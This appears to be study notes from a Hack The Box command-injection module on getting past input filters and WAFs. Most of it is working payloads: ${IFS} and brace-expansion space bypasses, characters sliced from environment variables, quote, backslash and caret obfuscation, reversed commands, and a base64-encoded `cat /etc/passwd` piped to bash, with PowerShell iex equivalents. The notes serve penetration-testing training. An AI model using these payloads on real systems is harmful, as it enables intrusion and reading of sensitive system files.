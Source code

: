 # Filters Evasion
-----

### Identify filters
- Filter/WAF Detection: when trying different operators (&, &&, |, ;), if we get errors from the web page, it means there's a filter in place to protect the application. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- When it comes to filtering, the application can blacklist operators or blacklist the whole command, or both. Hence, we need to attempt each scenario to figure out the vulnerability.

#### Blacklisted Characters
- If a commands contains a blocked special character, the application might deny the request.

- To find out which character is allowed in the application, use BurpSuite to try each of the operators, which can be found [here](operators.txt) or their [url encoded verion](url-encoded-operators.txt).

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_2.jpg)

#### Bypassing Space Filters
- If the application does not allow space character, we can try bypassing it by using tab instead.

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_3.jpg)

- As we see from the above image that the application accepts the request, meaning we succeed in bypassing space filter by using a tab.

- `${IFS}` is Linux Environment Varible whose default value is a space and a tab. Hence, the payload should look like `127.0.0.1%0a${IFS}`.

- Brace Expansion is another method we can use to bypass space filter, which automatically adds spaces between arguments wrapped between braces `{ls,-la}`. Hence, the payload will look like `127.0.0.1%0a{ls,-la}`.

#### Bypassing Other Blacklisted Characters
- Concept: we will obtain the special character from environment varible values (or $PATH).

- In Linux:
```bash
echo ${PATH} will output `/usr/local/bin:/usr/bin:/bin:/usr/games`. To get the "/" character, we run `echo ${PATH:0:1}`

- Similarly, to get ";" character, we use `${LS_COLORS:10:1}`

- So the final payload looks like: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`
```

- In Windows:

```shell
# Command Prompt
%HOMEPATH:~6,-11%	# output \


# PowerShell
$env:HOMEPATh[0]	# output \
```

#### Bypassing blacklisted commands
- In case an application blacklists certain commands, we need to find ways to work around.

- A few techniques we can use is using the commands with ' or ", which can be used on both Linux and Windows

```bash
127.0.0.1%0aw'h'o'a'm'i)
```

- In Linux, there are a few characters that can be inserted into the middle of the command

```bash
who$@ami
w\h\o\a\m\i
```

- Similarly, in Windows, we can use `^` character.

```bash
who^ami
```

#### Advanced Command Obfuscation
- In Windows, we can switching the cases of the commands (WhoAmI), which Windows will ignore and execute it.

- In Linux, since it is case-sensitive, we need to convert the command to lowercases before executing

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhoAmI")

Note: The above command uses space. If the application filters spaces, we need to replace it with tabs (%09)
```

- Reverse commands

```bash
# LINUX
echo "whoami" | rev
$(rev<<<"imaohw")

# WINDOWS
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```

- Encoding commands: this is extremely helpful when it comes to using commands with filtered characters.

```bash
echo -n "cat /etc/passwd | grep 33" | base64	# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# On the application
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

- For Windows, we can do similar technique

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


